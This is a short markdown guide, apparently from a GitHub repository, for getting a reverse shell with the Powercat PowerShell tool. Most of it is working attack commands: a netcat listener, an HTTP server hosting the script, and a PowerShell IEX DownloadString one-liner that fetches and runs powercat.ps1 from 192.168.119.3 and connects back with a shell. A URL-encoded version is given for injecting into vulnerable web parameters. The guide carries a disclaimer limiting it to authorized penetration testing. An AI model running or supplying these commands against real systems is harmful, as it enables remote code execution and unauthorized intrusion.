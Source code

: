 # 🐱 Powercat Reverse Shell Guide

> **⚠️ DISCLAIMER:**  
> This guide is intended for educational purposes and **authorized** penetration testing only. Do not use it in environments where you lack permission.

* * *

## 📄 Step-by-Step Instructions

### 📥 1. Copy Powercat to Your Current Directory

```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```

* * *

### 📡 2. Set Up a Netcat Listener

```bash
nc -nvlp 4444
```

* * *

### 🌐 3. Start a Simple HTTP Server on Port 80

```bash
python3 -m http.server 80
```

This will host `powercat.ps1` for remote download.

* * *

### 🧠 4. Execute Powercat Remotely Using PowerShell

On the **target machine**, run:

```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
```

- This line:
    - Downloads `powercat.ps1` from your HTTP server
    - Initiates a reverse shell connection back to your listener on port `4444`

* * *

### 🔐 5. URL Encode Special Characters (If Needed)

If you're embedding this command in a web request or injecting it into a vulnerable parameter, you may need to encode:

- `:` becomes `%3A`
- `;` becomes `%3B`

**Example (URL Encoded):**

```
IEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A//192.168.119.3/powercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell
```

* * *

## 📚 Source

- Original Powercat Tool: https://github.com/besimorhino/powercat

* * *

## 🧠 Notes

- Ensure PowerShell is available on the target.
- This reverse shell requires outbound access to your IP and port.

Always get **explicit authorization** before performing tests. Red team responsibly. 🛡️
